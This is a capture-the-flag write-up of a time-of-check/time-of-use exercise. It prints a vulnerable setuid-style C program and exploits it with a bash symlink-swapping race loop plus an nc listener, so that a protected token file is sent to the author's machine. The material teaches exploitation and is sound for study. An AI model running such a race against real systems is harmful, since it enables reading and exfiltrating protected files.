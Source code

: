 ###Level 10

####Introduction
This code takes advantage of a time-of-use to time-of-check bug. What we need to do is swap out the file in between the time of
check and the time of use. This is this code we are given
```
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
  char *file;
  char *host;

  if(argc < 3) {
      printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
      exit(1);
  }

  file = argv[1];
  host = argv[2];

  if(access(argv[1], R_OK) == 0) {
      int fd;
      int ffd;
      int rc;
      struct sockaddr_in sin;
      char buffer[4096];

      printf("Connecting to %s:18211 .. ", host); fflush(stdout);

      fd = socket(AF_INET, SOCK_STREAM, 0);

      memset(&sin, 0, sizeof(struct sockaddr_in));
      sin.sin_family = AF_INET;
      sin.sin_addr.s_addr = inet_addr(host);
      sin.sin_port = htons(18211);

      if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
          printf("Unable to connect to host %s\n", host);
          exit(EXIT_FAILURE);
      }

#define HITHERE ".oO Oo.\n"
      if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
          printf("Unable to write banner to host %s\n", host);
          exit(EXIT_FAILURE);
      }
#undef HITHERE

      printf("Connected!\nSending file .. "); fflush(stdout);

      ffd = open(file, O_RDONLY);
      if(ffd == -1) {
          printf("Damn. Unable to open file\n");
          exit(EXIT_FAILURE);
      }

      rc = read(ffd, buffer, sizeof(buffer));
      if(rc == -1) {
          printf("Unable to read from file: %s\n", strerror(errno));
          exit(EXIT_FAILURE);
      }

      write(fd, buffer, rc);

      printf("wrote file!\n");

  } else {
      printf("You don't have access to %s\n", file);
  }
}
```
To understand more of the TOCTOU look at the man for the access function
> access() checks whether the calling process can access the file path‐
name.
> The check is done using the calling process’s real UID and GID, rather
than the effective IDs as is done when actually attempting an operation
(e.g., open(2)) on the file.

####Exploit

So if we can get the `access()` check to pass using a file we (`level10`) actually has access to and then switch the file for
one that we actually want to read before the `open` call is made, we can exploit this code.   

We can do this using simlinks. However, first we need to find the IP address of the machine we want to send the contents of the file to  

For my purposes I wanted to send it to my computer that this VM is running on. I found that ip by running `netstat -rn` on the VM  and finding the
IP of the gateway. This IP is the IP of my computer.

I can test this by opening a TCP port on my computer using `nc -lk 18211` and then running the script on the VM with a random file
that I have access to.
`./flag10 /tmp/token` will try to send the contents of the file `/tmp/token` to my computer. Sure enough it worked!  

Now to start the simlink race condition  

I made a bash script that will repeatedly remake simlinks between the file I want, a random file and a file I have access to.
```
while true; 
  do 
  ln -sf /home/flag10/token exploit_link; 
  ln -sf /tmp/fake_token exploit_link; 
done
```
I then ran this script in the background using `&`  
Essentially I am going to pass in `exploit_link` to the vulnerable code and hope that at `access()` is called while the 
simlink to `/tmp/fake_token` is active since I have access to that file.  

I am then hoping that the simlink to the real token is replaced before `open()` is called on `exploit_link`  

If this happens I should see the contents of the token file print on the TCP connection on my computer.

